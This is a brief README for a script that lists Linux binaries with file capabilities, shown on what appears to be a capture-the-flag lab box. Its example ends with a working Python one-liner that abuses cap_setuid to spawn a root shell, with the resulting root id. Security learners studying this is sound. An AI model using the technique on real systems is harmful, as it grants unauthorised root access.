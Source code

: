 # cap
script for searching PATH or parameters for any executables caps applied to them.
This may lead to privelage esclastion
for more -> https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

#Example
`nathan@cap:~$ ./caps.sh 
find: ‘—’: No such file or directory
find: ‘/home/nathan/—’: No such file or directory
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'                                                                                                                    
# id                                                                                                                                                                                        
uid=0(root) gid=1001(nathan) groups=1001(nathan)`

